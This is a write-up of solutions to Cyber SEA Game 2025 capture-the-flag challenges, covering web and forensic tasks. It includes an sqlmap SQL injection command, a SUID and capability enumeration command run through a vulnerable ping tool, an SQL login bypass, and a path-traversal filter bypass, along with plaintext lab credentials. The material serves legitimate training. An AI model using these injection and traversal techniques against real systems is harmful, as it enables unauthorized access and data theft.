Cyber SEA Game 2025 is organized and managed by ASEAN-Japan Cybersecurity Capacity Building Centre (AJCCBC) in cooperation with Trend Micro Incorporated.

This round also serves to select outstanding individuals to represent ASEAN on the global stage as part of Team ASEAN at the International Cybersecurity Challenge (ICC) 2025 in Japan.

- About event: [ajccbc.ncsa.or.th/cyber-sea-game-2025 (Archive)](https://web.archive.org/web/20260118065403/https://ajccbc.ncsa.or.th/cyber-sea-game-2025/)
- [Cyber SEA Game 2025 Champions Announced](https://ajccbc.ncsa.or.th/cyber-sea-game-2025-champions-announced/)

# Challenges

<details>
<summary><b>All Challenges</b></summary>

- **Web**
  - **Easy Web Exploit: Exploit Me**
  - **Ping pwn**
  - **Admin**
  - **File Viewer**
- **Forensic**
  - **F1: Passport**
  - **F2: CryptedCoin**
  - Simple Forensic
- **Crypto**
  - C4: Analyze the forgotten password
  - C3: unf0given
  - C2: Plato
  - **C5: A very old odd file**
  - Attack the bad-box
- **Stegano**
  - LINE to PLAIN
  - S2: Save the Cutest Cat!
  - S3: Hidden in Plain Sight
  - **Cat Tail**
- **Reversing**
  - Fake C2
  - Hunt 4 the C2
  - Packer
  - **Corrupted**
  - **Flag Encoder**
  - Gorilla is not Godzilla
  - Matryoshka is a Russian nested dolls.
- **OT**
  - **OT1: Decode the RFID Tag**
- **OSINT**
  - **O1: Japanese geography**
  - **Guess the geolocation**
  - **GitHub**
  - **Secret Lesson**
- **Network**
  - N1: Man-in-the-flag
  - N2: Silent call, Loud message
  - N3: Silent signals
  - Relayed and Betrayed
  - Reversing & Packet Analysis
  - SMB3overKerberos
- **MISC**
  - **Hallucination in another world**
  - **Stop the server!**
  - M2: Send an email
  - **M4-Q1 : Open your password**

</details>

---

## Credentials

AWS Console URL: `AWS CONSOLE URL` `https://us-east-1.console.aws.amazon.com/systems-manager/fleet-manager/managed-nodes?region=us-east-1` \
AWS Console/Fleet Manager UserName: `Player` \
AWS Console/Fleet Manager Password: `***`

Note: You need to login AWS before accessing Fleet Manager.

AWS Fleet Manager URL: Fleet Manager \
Windows UserName: attacker \
Windows Password: CSG@Player!

---

# Web

## Easy Web Exploit: Exploit Me (Taiwan - Exploit Me)

### Description

Exploit following web site to extract flag.

<https://easy-web-exploit.ajccbc-cyber-sea-game.net/challenge.php>

### Solve









Not thinking too hard - it just needs to include the word "HEADER", so just throw sqlmap in there.

```sh
sqlmap -u "https://easy-web-exploit.ajccbc-cyber-sea-game.net/challenge.php" \
  --data="something=HARDER" \
  -p something \
  --prefix="'" \
  --suffix=" #HEADER" \
  --batch --dump
```

Flag: `CSG_FLAG{Congr@tul@tions_Ch@ll3ng3r_Y0u_H@v3_Solv3d_Expl0it_M3}`

## Ping pwn (Kazakhstan - W3: Ping Pwn)

### Description

One of our junior network administrators created a simple web-based diagnostic tool to check the network connectivity from our server.
He said it’s safe because it has filtering functions to prevent potential attacks.
Can you check if it’s safe or is vulnerable to potential attacks?
There should be flag.txt on the server for you!

URL: <http://pingpwn.csg2025.local:5000/> (from your virtual attack environment)

### Details

You might sometimes see an “Internal Server Error” when using this system, but don’t worry - if you try a few more times, it should work properly!

### Notes

Flag format: CSG_FLAG{random_string} \
Author: kzm

### Solve







It's just a simple ping web, but there's an EC2 user-data leak again.



Found a flag directory but can't open it.

```sh
sh -c 'find / -type f \( -perm /4000 -o -perm /2000 \) -printf "%M %u %g %s %p\n" 2>/dev/null; echo "---- capabilities ----"; getcap -r / 2>/dev/null'
```



Searched for files with SUID and SGID.





Flag: `CSG_FLAG{pprR0_J3ySz_a^1B}`

## Admin (Egypt - W1: Admin)

### Description

The company just rolled out a shiny “Admin Panel”.
Management claims it’s secure because they implemented credential input restrictions on the browser side and the used passwords are strong enough.
Can you prove them wrong and leak the flag shown after logging in to the “Admin Panel”?

URL: <http://webadmin.csg2025.local:5000/login> (from your virtual attack environment)

### Notes

Flag format: CSG_FLAG{random_string} \
Author: kzm

### Solve





an admin web login page.







It has the condition that the password is numeric, and we tried simple methods like an SQL bypass.



It worked, but it's not the right one yet.



There is a comment in the source saying the flag is with Admin08.



Try again.



Flag: `CSG_FLAG{vp*fRwm9mT5fa^1B}`

## File Viewer (Libya - W2: File Viewer)

### Description

A junior engineer has developed a file-sharing system.
However, it appears that there have been attempts to access unauthorized files with some strange logs have been recorded.
Fortunately, the security filter he implemented seems to have blocked the attacks.

However, just to be safe, could you review the system?
If you discover any vulnerabilities and manage to find the flag written in flag.txt hidden somewhere on the server, please report it.
Good luck!

URL: <http://fileviewer.csg2025.local:5000> (from your virtual attack environment)

### Notes

Flag format: CSG_FLAG{random_string} \
Auther: kzm

### Solve







From this challenge, it's an LFI (Local File Include) vulnerability, huh.



It's just bypassing the replace.

```txt
>>> "....//....//....//".replace("../", "")
'../../../'
```



Flag: `CSG_FLAG{L6EENPp@v0@va^1B}`

---

# Forensic

## F1: Passport (New Zealand - Passport)

### Description

I was in a rush and somehow lost my passport at the airport. When I asked for help, the airport staff handed me a strange file. They said everything I need is inside, but I have no idea how to access it! Can you help me recover my passport data?

### Details

Your task is to perform forensic analysis on the provided E01 file. Use forensic tools to extract the data and recover a photo of the passport. The flag is hidden within the metadata of this photo.

After file recovery, perform file recovery and metadata analysis to uncover the flag.

### Solve

File: `F1_CSG_Passport.zip`



